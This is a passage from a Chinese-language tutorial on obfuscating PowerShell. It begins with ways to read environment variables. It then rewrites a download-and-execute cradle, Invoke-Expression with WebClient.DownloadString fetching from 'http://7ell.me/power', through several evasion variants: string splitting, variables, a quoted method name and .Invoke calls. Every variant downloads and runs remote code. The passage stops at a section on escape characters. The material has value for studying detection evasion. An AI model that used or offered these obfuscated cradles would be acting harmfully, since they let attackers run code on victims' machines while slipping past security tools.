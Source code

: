 在混淆之前，先看看powershell获取环境变量的方式。

```
Get-Variable/GV/Variable cmd -ValueOnly
```

-ValueOnly可以简写为-ValueOnly,-ValueOnl,-ValueOn,-ValueO……,-Va,-V



```
(Get-Item/GI/Item Variable:cmd).Value
(Get-ChildItem/GCI/ChildItem/DIR/LS Variable:cmd).Value
```

后面很多构造会用到这些方式的。

**2.0 简单处理**

```
Invoke-Expression (New-Object System.Net.WebClient).DownloadString("http://7ell.me/power")
```

可以去掉System

```
Invoke-Expression (New-Object Net.WebClient).DownloadString("http://7ell.me/power")
```

将http分开+号连接

```
Invoke-Expression (New-Object Net.WebClient).DownloadString("ht"+"tp://7ell.me/power")
```

变量代替

```
IEX $wc=New-Object Net.WebClient;$wc.DownloadString('h'+'ttp://7ell.me/power')
```

把downloadstring使用单双引号引起来

```
Invoke-Expression (New-Object Net.WebClient)."DownloadString"('h'+'ttp://7ell.me/power')
```

使用invoke方法



```
Invoke-Expression (New-Object Net.WebClient).("DownloadString").Invoke('h'+'ttp://7ell.me/power')
$ds="Down"+"loadString";Invoke-Expression (New-Object Net.WebClient).$ds.Invoke('h'+'ttp://7ell.me/power')
```

以上单双引号可以切换

**2.1 转义符(反引号)**

查看帮助Get-Help about_Escape_Characters

以下为 Windows PowerShell 能够识别的特殊字符：

